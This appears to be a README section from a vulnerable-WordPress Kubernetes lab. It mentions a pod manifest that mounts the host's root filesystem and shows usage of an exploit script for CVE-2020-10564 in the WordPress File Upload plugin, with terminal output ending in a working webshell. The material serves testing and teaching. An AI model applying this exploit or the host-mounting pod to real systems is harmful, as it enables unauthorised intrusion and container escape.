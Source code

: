 During test phase I also used a malicious Pod that mounts the whole host file system from its `/` into the Pod. 
The pod yaml ressource is at `vulnerable-wordpress/malicious-pod/evil.yaml`

## Exploit script

This is the exploit script to exploit the vulnerability of the ``wordpress file upload`` plugin (version < 4.13.0, CVE-2020-10564 ). The upload form is located at http://localhost:30050/2021/09/13/hack-me-if-you-can/ and you can from there upload a reverse shell by uploading it at another location than the default location of the plugin thanks to a Remote File Inclusion vulnerability (../plugins/wp-file-upload/lib/)

The vulnerability report : [https://wpscan.com/vulnerability/10132](https://wpscan.com/vulnerability/10132).

Manual exploitation with **Burpsuite** [here](https://github.com/beerpwn/CVE/blob/master/WP-File-Upload_disclosure_report/report.md).



### Script usage

```bash
borie@pgp-branche: cd vulnerable-wordpress/exploit/
borie@pgp-branche:~/exploit$ python exploit.py http://142.93.65.231/2021/09/13/hack-me-if-you-can/ / 
[+] admin-ajax.php: http://142.93.65.231//wp-admin/admin-ajax.php
[+] admin-ajax.php should be fine, keep testing
[+] Plugin url: http://142.93.65.231/2021/09/13/hack-me-if-you-can/
[+] Using payload: ../plugins/wp-file-upload/lib/RcE-for-Th3-WiN.txt
[+] Retrived nonce parameter: 3b875bc68c
[+] Retrived params_index parameter: rmFyb4RaMMeWm1WF
[+] Retrived session_token parameter: 13518963866140a598f2ff89.40189050
[+] Stage 1 success
[+] Stage 2 work fine
[+] Stage 3 work prefectly :)
[+] We should have our webshell, gonna check it!
www-data

$ whoami
www-data
```
You might need ``urlparse2`` library and ``requests`` library to execute the python script. 
